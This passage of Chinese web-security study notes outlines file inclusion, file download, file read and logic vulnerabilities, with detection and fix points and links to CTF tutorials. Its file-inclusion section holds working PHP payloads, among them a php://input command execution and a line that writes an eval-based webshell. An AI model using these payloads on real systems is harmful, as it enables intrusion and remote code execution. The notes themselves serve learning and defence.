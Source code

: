 2. 检测：

   1. 白盒：代码审计
   2. 黑盒：漏扫工具/公开漏洞/手工看参数及功能

3. 类型：

   1. 本地包含：加././一直加或者../   %00截断    长度截断(window. > 256  linux>4096)

   2. 远程包含：

      1. 调用远程代码，加' # ? 

      2. 伪协议：

         ```php
         https://www.cnblogs.com/endust/p/11804767.html
         http://127.0.0.1:8080/include.php?filename=php://filter/convert.base64-encode/resource=1.txt
         http://127.0.0.1:8080/include.php?filename=php://inputPost : < ? php system('ver')?>
         <?PHP fputs(fopen('s.php','w'),'<?php @eval($_POST[cmd])?>');?>
         http://127.0.0.1:8080/include.php?filename=file:///D:/phpstudy/PHPTutorial/WWW/1.txt
         http://127.0.0.1:8080/include.php?filename=data://text/plain,<php: phpinfo();?>
         ```

         ![image-20210619232146218](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210619232146218.png)

4. 利用：http  ftp file  其他协议

5. 修复：固定后缀  固定文件  WAF

#### 3.9 文件下载

1. 产生：任意语言代码下载功能函数
2. 检测
   1. 白盒：代码审计
   2. 黑盒：漏扫工具/公开漏洞/手工看参数及功能
3. 利用
   1. 常见文件：后台首页日志等可见内容（搜索文件下载漏洞文件地址）
   2. 敏感文件：数据库配置文件/接口文件/秘钥信息
4. 修复：WAF/固定目录或过滤跨目录符号/目录权限设置



#### 3.10 文件读取

1. 产生：任意语言代码获取功能函数
2. 检测：手工看参数及功能
3. 利用：读取敏感文件

#### 3.11 逻辑安全

<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210621103617428.png" alt="image-20210621103617428" style="zoom: 67%;" />

1. 越权
   1. 水平越权：同级别用户之间越权
   2. 垂直越权：不同级别用户直接越权
   3. 修复：
      1. 前后端同时对用户输入信息进行校验，双重验证机制
      2. 调用功能前验证用户是否有权限调用相关功能
      3. 执行关键操作前必须验证用户身份，验证用户是否具备操作数据的权限
      4. 直接对象引用的加密资源ID,防止攻击者枚举ID,敏感数据特殊化处理
      5. 永远不要相信来自用户的输入，对于可控参数进行严格的检查与过滤
2. 登录
   1. 暴力破解
   2. 本地加密传输
   3. Cookie脆弱
   4. Session劫持
   5. 密文比对认证
3. 业务
   1. 订单ID

   [vulhub启动]: https://vulhub.org/#/docs/run/
[Sql注入基本思路]: https://www.cnblogs.com/20175211lyz/p/11210936.html
[ SQL注入拓展]: https://www.cnblogs.com/20175211lyz/p/11204022.html
[限制条件下获取表名、无列名注入]: https://www.cnblogs.com/20175211lyz/p/12358725.html
[^CTF文件上传]: https://www.cnblogs.com/20175211lyz/p/10989689.html
[CTF XSS]: https://www.cnblogs.com/20175211lyz/p/12207467.html
[CTF SSRF(服务器端伪造请求)]: https://www.cnblogs.com/20175211lyz/p/11408583.html
[命令执行写webshell]: https://mp.weixin.qq.com/s/cSaA6HUX0_j7KzBzAAoE0Q
[CTF RCE与命令注入]: https://www.cnblogs.com/20175211lyz/p/11396392.html
[CTF 文件包含]: https://www.cnblogs.com/20175211lyz/p/10989816.html
[CTF PHP反序列化]: https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
[CTF PHP反序列化]: https://www.cnblogs.com/20175211lyz/p/11403397.html
[POP链]: https://www.cnblogs.com/20175211lyz/p/12364199.html
[CTF XXE]: cnblogs.com/20175211lyz/p/11413335.html	"里面有详细介绍"
[CTF SSTI(服务器模板注入)]: https://www.cnblogs.com/20175211lyz/p/11425368.html